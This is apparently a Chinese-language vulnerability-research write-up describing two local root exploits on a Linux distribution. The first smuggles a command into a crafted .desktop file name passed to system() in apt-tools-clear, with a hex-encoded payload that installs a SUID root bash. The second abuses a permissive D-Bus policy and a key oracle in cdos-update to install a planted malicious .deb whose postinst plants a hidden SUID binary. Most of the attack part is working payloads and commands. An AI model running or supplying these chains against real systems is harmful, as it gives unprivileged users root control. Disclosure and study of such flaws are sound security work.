




继续挖掘fangde提取漏洞

## apt-tools-clear

### 信息收集

收集到`/usr/share/polkit-1/actions/org.apt-tools-remove.policy`



### 逆向

打开文件，逆向



```
g_file_test:Glib函数，去文件系统查一下，确保文件真实存在
# 拼接字符串
v6 = "rm -f /usr/share/applications/a2[1]"
```

- 我们需要欺骗程序，以.desktop结尾，并且拼接后的完整路径在`/usr/share/applications/a2[1]`真实存在

- 字符串被放入system时，顺便执行我们的命令

构造出字符串：

```
a2[1] = ../../../tmp/test; id #.desktop
```

我们只需要在/tmp目录下创建一个名为`test; id#.desktop`的文件就能够通过检查，从而以root权限执行了id

### 构造shell

我们需要执行的命令最好能够复制bash并且赋权SUID

```
install -m 6755 /bin/bash /home/zhang/rootsh
```

但是文件系统中不能含有`/`，思路是转成hex

```
$ python3 -c 'print("install -m 6755 /bin/bash /home/zhang/rootsh".encode().hex())'
696e7374616c6c202d6d2036373535202f62696e2f62617368202f686f6d652f7a68616e672f726f6f747368
```

执行的代码要自动包含解码，最后构造python命令

```
python3 -c "import os;os.system(bytes.fromhex('696e7374...').decode())"
```

最终构造a2[1]

```
../../../tmp/test; python3 -c "import os;os.system(bytes.fromhex('696e7374...').decode())" #.desktop
```


## cdos-update

### 配置

分析dbus，默认在`/usr/share/dbus-1/system.conf`中是拒绝

在`/etc/dbus-1/system.d/`中，修改默认策略，覆盖默认规则

**conf配置**

得到`com.nfs.KeyboardGrabber.conf`这个配置任意用户调用



结果是：允许任意用户注册任意总线，并且向任意接口发送消息

**service配置**

之后查找service文件，负责dbus-daemon的配置，查找属主为root的

```
grep -l "User=root" /usr/share/dbus-1/system-services/*.service
```

**获取所有接口**

```
dbus-send --system --dest=org.cdos.update \
  --type=method_call --print-reply \
  /org/cdos/update org.freedesktop.DBus.Introspectable.Introspect
```



除了加解密，还有`import_offline_patch`离线安装接口，执行root安装

```
def import_offline_patch(self, env, decrypt_data):
    # ... 验证密钥 ...
    subprocess.run([
        "pkexec", "apt-get", "install",
        "/tmp/offline-patch/*nfsupdate*.deb", "-y"
    ])
```

定位到`/usr/share/cdos-update/daemon/daemon.py`

审计代码，发现密钥状态机，用于认证经过授权的安装

```python
@dbus.service.method(dbus_iface, in_signature='', out_signature='s')
    def encrypt(self):
        # 定义字符集，包含大小写字母和数字
        characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
        # 使用secrets模块生成随机字符串
        self.random_string = ''.join(secrets.choice(characters) for _ in range(16))
        # ......

    @dbus.service.method(dbus_iface, in_signature='s', out_signature='s')
    def decrypt(self, encrypted_message):
```

### 攻击链

- 在/tmp/offline-patch预置恶意deb包，构造恶意载荷

利用了`/usr/bin/setpriv`，能够修改uid

其中，deb包中需要有postinst，即安装后需要执行的脚本，写入内容

```sh
#!/bin/sh
M="/home/zhang/.cache/.nfs-svcfix/.kshd"
if [ -x /usr/bin/setpriv ]; then
/bin/cp /usr/bin/setpriv "$M" && /bin/chmod 4755 "$M"
else
/bin/cp /bin/bash "$M" && /bin/chmod 4755 "$M"
fi
LC_ALL=C /usr/bin/id > "/home/zhang/.cache/.nfs-svcfix/.kshd.id"
exit 0
```

之后就构建deb包

- 调用密钥预言机取回密钥

```
key = i.decrypt(i.encrypt()) 
```

- 触发root安装

```
env = dbus.Dictionary({"PATH": dbus.String(os.environ.get("PATH","/usr/bin:/bin"))}, signature="sv")
i.import_offline_patch(env, key)
```

之后能够落地rootbash

